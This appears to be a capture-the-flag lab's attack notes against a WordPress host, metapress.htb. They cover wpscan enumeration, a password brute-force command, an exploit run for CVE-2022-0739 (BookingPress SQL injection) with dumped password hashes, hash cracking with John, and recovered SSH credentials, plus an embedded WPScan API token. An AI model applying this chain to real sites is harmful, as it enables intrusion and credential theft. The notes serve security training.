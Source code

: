 # 10.10.11.186

# http://metapress.htb/

# wordpress version
5.6.2

#user wordpress
admin
manager

# wpscan brute force
wpscan --url http://metapress.htb/ --passwords ../../../SecLists/Passwords/darkc0de.txt --usernames user.txt

# with API
wpscan --url http://metapress.htb --enumerate ap,at,u,tt --api-token odPqKoPU1sjABqeT5KaD1QjyBEQVh1z88hzOMsV2RCg

# lien interessant
http://metapress.htb/wp-admin/admin-ajax.php

# wpscan plugins detect
wpscan --url http://metapress.htb --enumerate --api-token odPqKoPU1sjABqeT5KaD1QjyBEQVh1z88hzOMsV2RCg -e at,ap --plugins-detection mixed


# json url
http://metapress.htb/wp-json/

# wpnonce value
49de241183

# CVE 2022-0739
python booking-press-expl.py -u 'http://metapress.htb/wp-admin/admin-ajax.php' -n 49de241183
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|

# manager pass
john hash-manager --wordlist=../../../Downloads/rockyou.txt
result : partylikearockstar

# ssh conection
user : jnelson@metapress.htb
pass : Cb4_JmWM8zUZWMu@Ys